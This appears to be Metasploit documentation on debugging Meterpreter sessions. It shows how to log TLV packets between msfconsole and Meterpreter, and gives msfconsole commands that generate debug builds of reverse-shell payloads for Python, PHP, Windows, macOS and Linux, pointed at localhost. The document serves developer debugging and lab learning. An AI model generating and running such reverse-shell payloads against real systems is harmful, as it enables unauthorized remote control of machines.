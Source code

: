 There are currently two main ways to debug Meterpreter sessions:

1. Log all networking requests between msfconsole and Meterpreter, i.e. TLV Packets
2. Generate a custom Meterpreter debug build with extra logging present

## Log Meterpreter TLV Packets

This can be enabled for any Meterpreter session, and does not require a debug Metasploit build:

```msf
msf6 > setg SessionTlvLogging true
SessionTlvLogging => true
```

Allowed values:

- `setg SessionTlvLogging true` - Enable network logging, defaulting to console
- `setg SessionTlvLogging false` - Disable all network logging
- `setg SessionTlvLogging console` - Log to the current msfconsole instance
- `setg SessionTlvLogging file:/tmp/session.txt` - Write the network traffic logs to an arbitrary file

Example output:

```
meterpreter > getenv USER

SEND: #<Rex::Post::Meterpreter::Packet type=Request         tlvs=[
  #<Rex::Post::Meterpreter::Tlv type=COMMAND_ID      meta=INT        value=1052 command=stdapi_sys_config_getenv>
  #<Rex::Post::Meterpreter::Tlv type=REQUEST_ID      meta=STRING     value="73717259684850511890564936718272">
  #<Rex::Post::Meterpreter::Tlv type=ENV_VARIABLE    meta=STRING     value="USER">
]>

RECV: #<Rex::Post::Meterpreter::Packet type=Response        tlvs=[
  #<Rex::Post::Meterpreter::Tlv type=UUID            meta=RAW        value="Q\xE63_onC\x9E\xD71\xDE3\xB5Q\xE24">
  #<Rex::Post::Meterpreter::Tlv type=COMMAND_ID      meta=INT        value=1052 command=stdapi_sys_config_getenv>
  #<Rex::Post::Meterpreter::Tlv type=REQUEST_ID      meta=STRING     value="73717259684850511890564936718272">
  #<Rex::Post::Meterpreter::Tlv type=RESULT          meta=INT        value=0>
  #<Rex::Post::Meterpreter::GroupTlv type=ENV_GROUP       tlvs=[
    #<Rex::Post::Meterpreter::Tlv type=ENV_VARIABLE    meta=STRING     value="USER">
    #<Rex::Post::Meterpreter::Tlv type=ENV_VALUE       meta=STRING     value="demo_user">
  ]>
]>

Environment Variables
=====================

Variable  Value
--------  -----
USER      demo_user
```

## Meterpreter debug builds

The following options can be specified when generating Meterpreter payloads:

- `MeterpreterDebugBuild` - When set to `true`, the generated Meterpreter payload will have additional logging present
- `MeterpreterDebugLogging` - Configure the logging mode. This currently only allows writing to a file on the remote host. Requires `MeterpreterDebugBuild` to be set to true. Example value: `setg MeterpreterDebugLogging rpath:/tmp/meterpreter_log.txt`
- `MeterpreterTryToFork` - When set to `true` the Meterpreter payload will try to fork from the currently running process. Setting to `false` is useful to see any `stdout` logging that occurs

The debug build will have additional log statements, which can be easily detected. These debug builds are useful for scenarios where A/V is not running, in local labs for learning purposes, or raising Metasploit issue reports etc.

### Python

```
use payload/python/meterpreter_reverse_tcp
generate -o shell.py -f raw lhost=127.0.0.1 MeterpreterDebugBuild=true MeterpreterTryToFork=false
to_handler

python3 shell.py
```

### PHP

```
use payload/php/meterpreter_reverse_http
generate -o shell.php -f raw lhost=127.0.0.1 MeterpreterDebugBuild=true
to_handler

php shell_http.php
```

### Windows

```
use windows/x64/meterpreter_reverse_tcp
generate -f exe -o shell.exe MeterpreterDebugBuild=true MeterpreterDebugLogging='rpath:C:/test/foo.txt'

to_handler
```

### Mac

```
use osx/x64/meterpreter_reverse_tcp
generate -f macho -o shell MeterpreterDebugbuild=true MeterpreterDebugLogging='rpath:/tmp/foo.txt'

to_handler
```

### Linux

```
use linux/x64/meterpreter_reverse_tcp
generate -f elf -o shell MeterpreterDebugbuild=true MeterpreterDebugLogging='rpath:/tmp/foo.txt'

to_handler
```

### Java

Functionality not supported
